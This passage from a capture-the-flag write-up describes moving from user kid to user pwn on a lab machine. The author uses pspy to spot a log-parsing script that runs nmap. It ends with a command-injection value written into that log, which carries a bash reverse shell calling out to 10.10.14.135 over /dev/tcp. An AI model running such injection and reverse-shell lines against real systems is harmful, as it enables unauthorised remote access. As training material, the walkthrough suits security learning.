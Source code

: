 So normally `/home/pwn/scanlosers.sh` will scan us back.

The logs file should contains lines like this one:

```
2021-02-08 19:54:33.513581 1.1.1.1
```

And when we try to "hack" searchploit, it voids the file instead of appending a
new line.

There is `/usr/sbin/incrond` running so there is maybe a root job starting
`/home/pwn/scanlosers.sh` or something similar.

Let's upload and launch pspy to confirm that.

On our machine:

```plaintext
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
$ ruby -run -ehttpd . -p8080
```

On the target machine:

```plaintext
kid@scriptkiddie:~$ wget http://10.10.14.135:8080/pspy64
kid@scriptkiddie:~$ chmod u+x pspy64
kid@scriptkiddie:~$ ./pspy64
```

If we go trigger the searchsploit security filter we can see this on pspy:

```plaintext
2021/02/08 21:30:37 CMD: UID=1001 PID=2221   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2225   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2226   | sh -c nmap --top-ports 10 -oN recon/10.10.14.135.nmap 10.10.14.135 2>&1 >/dev/null 
2021/02/08 21:30:37 CMD: UID=1001 PID=2228   | nmap --top-ports 10 -oN recon/10.10.14.135.nmap 10.10.14.135 
2021/02/08 21:30:37 CMD: UID=1001 PID=2231   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2237   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2236   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=0    PID=2238   | /lib/systemd/systemd-udevd 
2021/02/08 21:30:48 CMD: UID=0    PID=2239   | /usr/sbin/incrond 
2021/02/08 21:30:48 CMD: UID=1001 PID=2240   | sed -i s/open  /closed/g /home/pwn/recon/sed6xfScv 
2021/02/08 21:30:48 CMD: UID=0    PID=2241   | /bin/sh /sbin/dhclient-script 
2021/02/08 21:30:48 CMD: UID=???  PID=2243   | ???
```

1001 is the id of `pwn`, so we'll get a shell as pwn.

Let's craft a reverse shell payload and put it in place:

```plaintext
$ printf %s "cyfun cyfun ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' #" > /home/kid/logs/hackers
```

Note: respect the log format else the `cut` in the script will fails to parse
